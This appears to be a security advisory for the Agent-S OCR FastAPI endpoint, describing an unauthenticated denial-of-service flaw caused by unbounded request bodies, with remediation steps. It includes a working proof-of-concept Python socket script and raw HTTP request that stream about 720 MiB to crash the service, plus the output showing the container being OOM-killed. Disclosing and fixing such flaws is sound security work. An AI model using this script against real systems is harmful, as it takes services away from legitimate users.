

# Agent-S has a denial of service vulnerability in the OCR HTTP request body handling

## supplier

https://github.com/simular-ai/Agent-S

## affected version

Agent-S local source package version `0.3.2`.

The local package metadata reports `gui-agents` version `0.3.1`.

Verified in a bounded local Docker environment:

```text
Docker memory limit: 512 MiB
Local OCR API: http://127.0.0.1:33108
Application object: gui_agents.s1.utils.ocr_server:app
```

## vulnerability file

```text
gui_agents/s1/utils/ocr_server.py
```

## describe

Agent-S has a denial of service vulnerability in its OCR HTTP API.

The `/ocr/` endpoint accepts an unauthenticated JSON body containing `img_bytes` and lets FastAPI/Pydantic read and materialize the request body before any Content-Length, decoded byte-size, image pixel, or OCR work budget is enforced. The handler then base64-decodes the attacker-controlled value and passes the decoded bytes into image parsing and OCR processing.

In a real deployment, a single oversized OCR request can exhaust worker memory or CPU before the request is rejected. This can terminate the OCR service container or monopolize OCR workers, making OCR-backed agent functionality unavailable to legitimate users.

## code analysis

The OCR server creates a public FastAPI application and initializes the OCR module at import time:

```python
app = FastAPI()
ocr_module = PaddleOCR(use_angle_cls=True, lang="en")
```

The request schema accepts `img_bytes` as an unbounded `bytes` field:

```python
class ImageData(BaseModel):
    img_bytes: bytes
```

The `/ocr/` route has no authentication or pre-read size boundary. It base64-decodes the full attacker-controlled field after FastAPI/Pydantic has already accepted the body:

```python
@app.post("/ocr/")
async def read_image(image_data: ImageData):
    image_bytes = base64.b64decode(image_data.img_bytes)
    results = ocr_results(image_bytes)
```

The decoded bytes are then opened as an image, converted to a NumPy array, and sent into OCR:

```python
screenshot_img = Image.open(io.BytesIO(screenshot))
result = ocr_module.ocr(np.array(screenshot_img), cls=True)
```

Root cause:

```text
unauthenticated HTTP request -> full JSON body read/Pydantic materialization -> base64 decode -> image parse/OCR -> no pre-boundary byte, pixel, time, or concurrency limit
```

## PoC

This PoC targets the real Agent-S OCR FastAPI app object, `gui_agents.s1.utils.ocr_server:app`, in a bounded local Docker container. A local PaddleOCR stub is used only to avoid external OCR model downloads during reproduction; the demonstrated failure occurs while the HTTP body is being read and materialized, before any real OCR engine behavior is required.

Attack request:

```http
POST /ocr/ HTTP/1.1
Host: 127.0.0.1:33108
Content-Type: application/json
Content-Length: approximately 720 MiB

{"img_bytes":"AAAA...AAAA"}
```

Equivalent bounded proof script:

```python
import socket

host = "127.0.0.1"
port = 33108
size = 720 * 1024 * 1024
prefix = b'{"img_bytes":"'
suffix = b'"}'
length = len(prefix) + size + len(suffix)

s = socket.create_connection((host, port), timeout=5)
s.sendall(
    (
        f"POST /ocr/ HTTP/1.1\r\n"
        f"Host: {host}:{port}\r\n"
        "Content-Type: application/json\r\n"
        f"Content-Length: {length}\r\n"
        "Connection: close\r\n\r\n"
    ).encode()
)
s.sendall(prefix)

chunk = b"A" * (1024 * 1024)
sent = 0
while sent < size:
    n = min(len(chunk), size - sent)
    s.sendall(chunk[:n])
    sent += n

s.sendall(suffix)
s.close()
```

Expected safe behavior:

```text
The OCR API should reject the request before full JSON body read, base64 decode, image parsing, or OCR execution.
```

Observed local proof:

```text
BASELINE_HEALTH status=200
BASELINE_DOCS status=200
ATTACK_REQUEST Content-Type=application/json Content-Length~720MiB img_bytes
CLIENT_SENT 64MiB
CLIENT_SENT 128MiB
CLIENT_SENT 192MiB
CLIENT_SENT 256MiB
CLIENT_SENT 320MiB
CLIENT_SENT 384MiB
CLIENT_ERROR after=435MiB
DOCKER_INSPECT OOMKilled=true ExitCode=137 Status=exited Running=false
POST_ATTACK_HEALTH status=000 exit=7
RESULT=REPRODUCED_AGENT_S_OCR_HTTP_BODY_DOS
```

The terminal screenshot below is a real PowerShell window showing the successful local reproduction. It shows the baseline checks, the large `/ocr/` request, Docker reporting `OOMKilled=true ExitCode=137`, the post-attack health check failure, and the final reproduction result.



## repair suggestion

1. Enforce a strict request body limit before FastAPI/Pydantic materializes the JSON body.
2. Reject requests with missing, invalid, or excessive `Content-Length`.
3. Cap `img_bytes` encoded length and decoded byte length before `base64.b64decode`.
4. Verify image dimensions with a maximum pixel count before converting to a NumPy array.
5. Add OCR execution timeout, per-request memory limits, and OCR worker concurrency limits.
6. Require authentication or a scoped token for the OCR API if exposed outside a trusted local process.
7. Return bounded `413 Payload Too Large` or `422 Invalid Image` errors without invoking OCR.
8. Add regression tests for oversized JSON body, oversized base64 field, image decompression bombs, and normal small-image OCR requests.
